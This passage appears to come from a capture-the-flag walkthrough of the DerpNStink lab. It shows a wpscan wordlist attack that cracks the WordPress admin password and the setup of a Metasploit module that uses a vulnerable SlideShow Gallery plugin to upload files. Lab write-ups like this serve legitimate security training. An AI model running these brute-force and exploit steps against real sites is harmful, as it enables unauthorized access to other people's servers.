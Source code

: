 The discovered vulnerability allows to upload any file to the Wordpress installation, provided that we are able to login with a valid user.

Let's try to log in with the admin user then! A wordlist attack may be enough:


```
root@kali:~# gunzip /usr/share/wordlists/rockyou.txt.gz
root@kali:~# wpscan --url http://derpnstink.local/weblog/ --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

The dictionary attack succeeds, providing us the (arguably guessable) password for the *admin* Wordpress user

```
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : admin Password : admin                                                          

  Brute Forcing 'admin' Time: 00:19:47 <                      > (19805 / 14344393)  0.13%  ETA: ??:??:??
  +----+-------+------+----------+
  | Id | Login | Name | Password |
  +----+-------+------+----------+
  |    | admin |      | admin    |
  +----+-------+------+----------+

[+] Finished: Tue May  8 08:41:51 2018
[+] Requests Done: 20183
[+] Memory used: 63.445 MB
[+] Elapsed time: 00:20:00
```

If we try to log in to Wordpress with the admin credentials, we see that it has limited power, as it can only edit the personal profile and the Slideshow slides. This could be used as a vector of attack, but let's use Metasploit to perform the attack. Run msfconsole and launch the attack:

```
msf > use exploit/unix/webapp/wp_slideshowgallery_upload 
msf exploit(unix/webapp/wp_slideshowgallery_upload) > show options

Module options (exploit/unix/webapp/wp_slideshowgallery_upload):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                         yes       The target address
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       The base path to the wordpress application
   VHOST                         no        HTTP server virtual host
   WP_PASSWORD                   yes       Valid password for the provided username
   WP_USER                       yes       A valid username


Exploit target:

   Id  Name
   --  ----
   0   WP SlideShow Gallery 1.4.6


msf exploit(unix/webapp/wp_slideshowgallery_upload) > set RHOST derpnstink.local
RHOST => derpnstink.local
msf exploit(unix/webapp/wp_slideshowgallery_upload) > set TARGETURI weblog
TARGETURI => weblog
```